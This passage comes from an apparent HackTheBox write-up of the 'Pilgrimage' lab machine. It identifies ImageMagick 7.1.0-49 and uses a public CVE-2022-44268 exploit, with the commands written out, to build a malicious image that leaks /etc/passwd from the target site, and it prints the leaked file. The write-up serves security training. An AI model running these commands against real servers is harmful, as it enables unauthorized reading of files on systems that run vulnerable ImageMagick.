 #### Version Check

After trying to run the magick binary which dumped before using the git-dumper tool got the exact version of ImageMagick tool which is `7.1.0-49 beta`

```console
(kali㉿kali)-[~/Tools/git-dumper/git]$./magick -h
Error: Invalid argument or not enough arguments

Usage: magick tool [ {option} | {image} ... ] {output_image}
Usage: magick [ {option} | {image} ... ] {output_image}
       magick [ {option} | {image} ... ] -script {filename} [ {script_args} ...]
       magick -help | -version | -usage | -list {option}

                                                                                                                                                                 
(kali㉿kali)-[~/Tools/git-dumper/git]$ ./magick -version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)                  
```

After some searching found that this version is vulnerable to `CVE-2022-44268` 

![](/assets/img/hackthebox/machines writeups/Pilgrimage/search-exploit.png)

## Shell as emily

#### Exploit CVE-2022-44268

Using this cool python [exploit](https://github.com/kljunowsky/CVE-2022-44268) .Using it first to create a malicious image, and then again pointing at the image on the site to get the results of the exploit

```console
(kali㉿kali)-[~/Tools/git-dumper/git]$  python3.11 CVE-2022-44268.py --image sample.png --file-to-read /etc/passwd --output malcious.png
(kali㉿kali)-[~/Tools/git-dumper/git]$  python3.11 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/6563afaa3daee.png             

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
```